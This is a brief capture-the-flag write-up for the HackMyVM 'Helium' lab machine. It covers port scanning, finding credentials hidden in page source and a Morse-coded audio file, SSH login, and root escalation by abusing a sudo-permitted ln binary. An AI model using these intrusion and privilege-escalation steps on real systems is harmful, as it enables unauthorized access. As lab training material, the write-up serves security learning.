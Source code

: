 ### Write up for https://hackmyvm.eu/machines/machine.php?vm=Helium ###

ip=10.10.10.100
url=http://$ip

threader3000

//22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
//80/tcp open  http    nginx 1.14.2


firefox $url &
//view source code 

// <!-- Please paul, stop uploading weird .wav files using /upload_sound -->
we got a username : paul
visiting: view-source:http://10.10.10.100/bootstrap.min.css we get this /yay/mysecretsound.wav

wget $url/yay/mysecretsound.wav 

googling decode morse from wav // https://morsecode.world/international/decoder/audio-decoder-adaptive.html

uploading and decoding the wav file
pass : da******o

we got user and pass lets try to ssh

cat user.txt 

sudo -l 

User paul may run the following commands on helium:
    (ALL : ALL) NOPASSWD: /usr/bin/ln

https://gtfobins.github.io/ search for ln

sudo ln -fs /bin/bash /usr/bin/ln

root@helium:/home/paul# id
uid=0(root) gid=0(root) groups=0(root)

